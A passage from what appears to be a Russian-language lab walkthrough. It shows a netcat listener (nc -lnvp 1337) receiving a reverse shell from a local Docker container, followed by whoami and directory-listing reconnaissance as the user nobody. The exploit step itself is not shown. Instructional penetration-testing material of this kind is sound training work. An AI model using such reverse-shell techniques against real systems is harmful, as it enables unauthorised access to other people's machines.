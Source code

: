 После чего видим, что страница долго грузится...

Тут можно вернуться в окно терминала где у нас включена прослушка порта, и увидим установленное 
**reverse shell** подключение

```bash
┌──(kali㉿kali)-[~/kakaya-to_directoriya]
└─$ nc -lnvp 1337                                     
listening on [any] 1337 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 47504
Linux a17f12c3b756 6.0.0-kali3-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.0.7-1kali1 (2022-11-07) x86_64 Linux
sh: w: not found
uid=65534(nobody) gid=65534(nobody) groups=65534(nobody)
~ $ /bin/sh: can't access tty; job control turned off
```

Сразу проверяем под каким пользователем мы находимся в системе и доступы к каким файлам у на имеются

```bash
┌──(kali㉿kali)-[~/RDG/exim4]
└─$ nc -lnvp 1337
listening on [any] 1337 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 57710
Linux 66e44f703c68 6.0.0-kali3-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.0.7-1kali1 (2022-11-07) x86_64 Linux
sh: w: not found
uid=65534(nobody) gid=65534(nobody) groups=65534(nobody)
/bin/sh: can't access tty; job control turned off
~ $ whoami
nobody
~ $ ls -la
total 68
drwxr-xr-x    1 root     root          4096 Apr  7 00:32 .
drwxr-xr-x    1 root     root          4096 Apr  7 00:32 ..
-rwxr-xr-x    1 root     root             0 Apr  7 00:32 .dockerenv
drwxr-xr-x    2 root     root          4096 Feb 10 16:45 bin
drwxr-xr-x    5 root     root           340 Apr  7 00:32 dev
drwxr-xr-x    1 root     root          4096 Apr  7 00:32 etc
drwxr-xr-x    2 root     root          4096 Feb 10 16:45 home
drwxr-xr-x    1 root     root          4096 Mar 25 02:18 lib
drwxr-xr-x    5 root     root          4096 Feb 10 16:45 media
drwxr-xr-x    2 root     root          4096 Feb 10 16:45 mnt
drwxr-xr-x    2 root     root          4096 Feb 10 16:45 opt
dr-xr-xr-x  349 root     root             0 Apr  7 00:32 proc
drwx------    2 root     root          4096 Feb 10 16:45 root
drwxr-xr-x    1 nobody   nobody        4096 Apr  7 00:32 run
drwxr-xr-x    2 root     root          4096 Feb 10 16:45 sbin
drwxr-xr-x    2 root     root          4096 Feb 10 16:45 srv
dr-xr-xr-x   13 root     root             0 Apr  7 00:32 sys
drwxrwxrwt    1 root     root          4096 Apr  7 00:51 tmp
drwxr-xr-x    1 root     root          4096 Mar 25 02:18 usr
drwxr-xr-x    1 root     root          4096 Mar 25 02:18 var
```
